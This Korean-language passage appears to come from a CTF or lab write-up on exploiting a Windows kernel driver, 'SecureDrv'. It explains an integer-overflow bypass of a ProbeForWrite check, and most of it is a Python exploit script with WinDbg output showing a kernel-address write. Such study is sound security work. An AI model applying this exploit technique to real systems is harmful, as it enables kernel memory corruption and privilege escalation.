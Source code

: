 근데 **입력값 버퍼**는 `DeviceIoControl()`의 3번째 인자값이기 때문에 주소값을 원하는 대로 조작할 수 있습니다. 다만 `memcpy()` 함수로 값을 복사하기 전에 [ProbeForWrite()](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforwrite) 함수로 입력값 버퍼의 주소가 실제 User-Land에 속하는 주소인지 검사합니다.

이 검사는 `kernel_to_user_handler()` 함수에서 `ProbeForWrite()` 함수의 2번째 인자값에 1을 더해서 호출하기 때문에, 하단의 코드처럼 입력값 버퍼의 크기를 0xFFFFFFFF로 지정해주면 Integer Overflow가 발생해 우회할 수 있습니다.

```python
from KePwnLib import *
import sys

BABY_IOCTL_CODE1 = 0x226203 # user -> kernel
BABY_IOCTL_CODE2 = 0x226207 # kernel -> user
BABY_IOCTL_CODE3 = 0x22620B # jmp to handler

DRIVER_NAME = "\\\\.\\SecureStorage"
DEVICE_NAME = "SecureDrv"

# edit for exploit
DeviceIoControl.argtypes = [
	HANDLE,
	DWORD,
	c_ulonglong, # LPVOID,
	DWORD,
	LPVOID,
	DWORD,
	POINTER(DWORD),
	LPVOID
]

hDriver = DriverConnect(DRIVER_NAME)
if hDriver == NULL:
	print "[!] cannot create kernel driver handler"
	sys.exit(-1)

print "[+] %s handler      = 0x%x" % (DRIVER_NAME, hDriver)
securedrv_addr = GetDeviceBase(DEVICE_NAME)
print "[+] %s base address = 0x%016x" % (DEVICE_NAME, securedrv_addr)

dwRet = DWORD(0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE1, NULL, 0, NULL, 0, byref(dwRet), 0)

buf = create_string_buffer(0x100)
memmove(buf, "A" * 8, 8)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, addressof(buf), 8, NULL, 0, byref(dwRet), 0)

DeviceIoControl(hDriver, BABY_IOCTL_CODE2, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, securedrv_addr+0x4050, -1, NULL, 0, byref(dwRet), 0)

'''
SecureDrv+0x11e3:
fffff803`074311e3 ff153f0e0000    call    qword ptr [SecureDrv+0x2028 (fffff803`07432028)]
0: kd> r rcx,rdx,r8
rcx=fffff80307434050 rdx=0000000000000000 r8=0000000000000001
0: kd> dqs fffff803`07432028 l1
fffff803`07432028  fffff803`06868db0 nt!ProbeForWrite
....
SecureDrv+0x120d:
fffff803`0743120d e8ae010000      call    SecureDrv+0x13c0 (fffff803`074313c0) <- memcpy()
1: kd> r rcx,rdx,r8
rcx=fffff80307434050 rdx=fffff80307433050 r8=0000000000000008
1: kd> dqs @rdx l1
fffff803`07433050  41414141`41414141
'''
```
